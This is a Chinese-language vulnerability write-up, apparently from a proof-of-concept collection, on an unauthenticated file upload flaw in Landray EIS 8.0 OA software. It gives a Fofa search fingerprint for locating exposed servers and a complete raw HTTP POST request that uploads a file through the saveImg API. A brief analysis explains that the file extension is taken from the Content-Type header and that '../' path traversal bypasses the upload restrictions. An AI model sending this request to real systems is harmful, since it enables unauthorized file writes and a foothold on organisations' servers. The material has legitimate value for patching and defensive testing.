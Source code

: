 # 蓝凌EIS 8.0新版前台文件上传漏洞 

## 漏洞厂商

landray蓝凌   

## 厂商官网

https://www.landray.com.cn/

## 产品

蓝凌智能OA EIS 8.0 

https://www.landray.com.cn/blue?target=zhinengoa

## Fofa语法

```
icon_hash="953405444" 
```

## POC

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=jh3g1b45deo2ny55kmxl4355; Lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Length: 483
 
------WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Disposition: form-data; name="file"filename="test.jpg"
Content-Type: text/html


111
------WebKitFormBoundaryZUtvHzp8FchbbUUn--
```

文件路径`Scripts/plupload/1.txt`

漏洞分析:

`/eis/service/api.aspx`下存在一个`SvaeImg`方法。

当`action=saveimg`时，则进入

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172207322.png)

一处简单的文件上传漏洞，取file参数的io流。后时间戳+ext变量。

这里的变量取的是`Content-Type`头的`image`/后的内容，由于`web.config`中定义了一些可以未登录访问的路径。

../跨目录绕过

访问 `/eis/service/api.aspx?action=saveImg`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172523693.png)
